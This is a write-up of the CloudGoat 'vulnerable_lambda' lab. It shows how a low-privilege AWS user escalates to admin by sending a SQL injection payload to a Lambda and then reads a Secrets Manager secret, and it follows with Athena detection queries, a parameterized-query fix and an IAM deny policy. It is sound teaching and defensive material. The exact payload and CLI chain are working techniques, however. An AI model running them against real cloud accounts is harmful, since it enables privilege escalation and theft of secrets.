









# SQL Injection in a Lambda: Privilege Escalation to Admin

> **CloudGoat scenario:** `vulnerable_lambda`
> **Attacker toolkit:** AWS CLI
> **Defender toolkit:** CloudTrail → Athena, Terraform/IAM
> **MITRE ATT&CK:** [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/), [T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/), [T1098.003 Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/), [T1555.006 Cloud Secrets Management Stores](https://attack.mitre.org/techniques/T1555/006/)

Most IAM privilege-escalation scenarios abuse an over-broad IAM action directly.
This one is more interesting: the escalation is delivered through a **SQL
injection inside a Lambda function** that builds an IAM policy-application query
from unsanitized input. A low-privilege user with almost nothing becomes account
admin by typing six characters of SQL into a JSON payload.

---

## The environment

I start as the IAM user `bilbo` (`cg-bilbo-cgid34gm0vojkc`). His entire inline
policy is two statements:



- `sts:AssumeRole` on one role — `cg-lambda-invoker*`
- `iam:Get*`, `iam:List*`, and the IAM policy simulator

No ability to touch data, no admin — just the ability to assume one role and read
IAM. That constrained starting point is the whole puzzle.

---

## The attack

**1. Assume the only role available.** `bilbo` can assume `cg-lambda-invoker`,
so I do, and configure the temporary credentials as a second profile:

```bash
aws --profile bilbo sts assume-role \
  --role-arn arn:aws:iam::<acct>:role/cg-lambda-invoker-cgid34gm0vojkc \
  --role-session-name assumed-role
# configure AccessKeyId + SecretAccessKey + SessionToken as profile "assumed_role"
aws --profile assumed_role sts get-caller-identity   # now the invoker role
```



**2. Read the vulnerable Lambda.** The invoker role can list and download the
function's code package. The handler is the target:



```python
statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"
for row in db.query(statement):
    ...
    iam_client.attach_user_policy(
        UserName=user_name,
        PolicyArn=f"arn:aws:iam::aws:policy/{row['policy_name']}")
```

Two things make this exploitable. First, the query is built by **f-string
interpolation of caller input** — classic SQL injection. Second, the seed data
shows every *safe* policy is marked `public='True'`, and **`AdministratorAccess`
is the single row with `public='False'`.** The `and public='True'` clause exists
precisely to stop anyone applying admin.

**3. Inject.** A payload that closes the string early and comments out the rest
of the WHERE clause deletes that guard:

```bash
cat > payload.json <<'EOF'
{
    "policy_names": ["AdministratorAccess' -- "],
    "user_name": "cg-bilbo-cgid34gm0vojkc"
}
EOF

aws --profile assumed_role lambda invoke \
  --function-name cgid34gm0vojkc-policy_applier_lambda1 \
  --payload file://payload.json out.txt
cat out.txt   # "All managed policies were applied as expected."
```

The query the Lambda actually runs becomes:

```sql
select policy_name from policies where policy_name='AdministratorAccess' -- ' and public='True'
```

The `' ` ends the string, `-- ` comments out `and public='True'`, the admin row is
returned, and the Lambda dutifully calls `attach_user_policy(AdministratorAccess)`
on me.



> **A realistic toolchain wrinkle.** The WSL environment had AWS CLI **v1**, which
> doesn't accept the v2-only `--cli-binary-format raw-in-base64-out` flag; dropping
> it (CLI v1 reads the payload file directly) made the invoke succeed. Small, but
> the kind of version quirk that trips up a real engagement.

**4. Loot the secret.** Now an admin, `bilbo` reads the target secret from Secrets
Manager:

```bash
aws --profile bilbo secretsmanager get-secret-value \
  --secret-id cgid34gm0vojkc-final_flag
```



`SecretString: cg-secret-846237-284529` — objective reached.

---

## Root cause

The Lambda builds a SQL statement by string-interpolating untrusted input, so an
attacker can rewrite the query's logic (SQL injection). Compounding it, the
function's **execution role holds `iam:AttachUserPolicy` on `*`** with no
restriction on *which* managed policy it may attach — so a successful injection
escalates all the way to `AdministratorAccess`.

---

## Detection

The attack is driven by `lambda:Invoke`, which is a **data event** (off by default,
like S3 `GetObject`), so the invocation itself may never reach CloudTrail. But the
attack's *side effect* is a management event that is always logged — and it's a
loud one.

**Detection 1 — the privesc smoking gun.** A `AttachUserPolicy` granting
`AdministratorAccess`, performed by a *Lambda execution role*:

```sql
SELECT eventtime, eventname, useridentity.arn AS who,
       json_extract_scalar(requestparameters, '$.policyArn')  AS policy_attached,
       json_extract_scalar(requestparameters, '$.userName')   AS target_user
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventname = 'AttachUserPolicy'
  AND json_extract_scalar(requestparameters, '$.policyArn') LIKE '%AdministratorAccess%'
ORDER BY eventtime DESC;
```



The `who` is an `assumed-role/cgid...policy_applier_lambda1` ARN — a **compute role
modifying IAM user policies**, which should essentially never happen in normal
operations. That role/action mismatch *is* the detection. (The same query also
surfaced an older admin-attach by `raynor` from a different scenario — a nice
reminder that this signature catches the whole class, not just one run.)

**Detection 2 — the chain from non-admin principals:**

```sql
SELECT eventtime, eventname, useridentity.arn AS who, sourceipaddress
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventname IN ('AssumeRole','GetFunction','AttachUserPolicy','GetSecretValue')
  AND useridentity.arn NOT LIKE '%iamadmin%'
ORDER BY eventtime ASC;
```



`bilbo` assumes the invoker role → the exec role attaches admin → `bilbo` reads the
secret. Filtering out `iamadmin` separates the attacker from legitimate operations —
detection remains a noise problem.

**GuardDuty** produced **no finding** for this chain — the SQL injection, the
`AttachUserPolicy` privilege escalation, and the Secrets Manager read all passed it
by. As with every scenario in this lab, the control-plane *technique* has no native
behavioural signature, so the custom CloudTrail/Athena detection is the only thing
that catches it.

---

## Remediation

Two layers — fix the vulnerability, and contain the blast radius.

**1. Root cause — parameterize the query** ([`remediate/policy_applier_fixed.py`](../vulnerable_lambda/remediate/policy_applier_fixed.py)):

```python
# BEFORE — raw input interpolated into SQL:
statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"
for row in db.query(statement):

# AFTER — bound parameter; input is a value, never SQL syntax, so the
# public='True' guard can never be commented out:
statement = "select policy_name from policies where policy_name = :policy and public = 'True'"
for row in db.query(statement, {"policy": policy}):
```

With a bound parameter, `AdministratorAccess' -- ` is searched for as a literal
policy name, matches nothing, and nothing is attached. (The fixed file also adds an
explicit allowlist check as defense in depth.)

**2. Live compensating control — stop the exec role from ever granting admin.**
An explicit, condition-scoped deny on the Lambda's execution role:

```bash
aws --profile iamadmin iam put-role-policy \
  --role-name cgid34gm0vojkc-policy_applier_lambda1 \
  --policy-name DenyAdminPolicyAttach \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"iam:AttachUserPolicy","Resource":"*","Condition":{"StringEquals":{"iam:PolicyARN":"arn:aws:iam::aws:policy/AdministratorAccess"}}}]}'
```



This is least-privilege via a **condition key** (`iam:PolicyARN`): the Lambda keeps
doing its real job (applying approved policies) but can never hand out
`AdministratorAccess`, even if the injection succeeds. It directly neutralizes the
escalation without breaking intended function.

---

## Verification

Undo the exploit, then re-run the exact injection and prove it's neutered:

```bash
aws --profile iamadmin iam detach-user-policy \
  --user-name cg-bilbo-cgid34gm0vojkc \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

aws --profile assumed_role lambda invoke \
  --function-name cgid34gm0vojkc-policy_applier_lambda1 \
  --payload file://payload.json out.txt
cat out.txt
```



The injection still runs, but the Lambda's `attach_user_policy(AdministratorAccess)`
call now returns:

```
AccessDenied ... not authorized to perform: iam:AttachUserPolicy ...
with an explicit deny in an identity-based policy
```

The function returns `FunctionError: Unhandled`, and
`list-attached-user-policies` on `bilbo` comes back **empty**. The escalation
primitive is closed.

---

## Takeaways

- **Injection isn't just a web-app problem.** A Lambda that builds a query from
  event input is as injectable as any web endpoint — and here the "database" was
  an IAM authorization decision. Parameterize every query, everywhere.
- **Scope what a function's role can attach.** The injection only reached admin
  because the execution role could attach *any* managed policy. A single
  `iam:PolicyARN` condition turns a full-account compromise into a blocked call.
- **Detect the side effect, not just the action.** The `lambda:Invoke` was a data
  event and effectively invisible, but the `AttachUserPolicy` it triggered was
  loud. A compute role granting `AdministratorAccess` is one of the highest-signal
  events in all of CloudTrail — write that detection.
- **Secrets managers are a prize, not a vault, without least privilege.** Admin
  made the Secrets Manager read trivial; the secret's protection was only ever the
  IAM boundary around it.
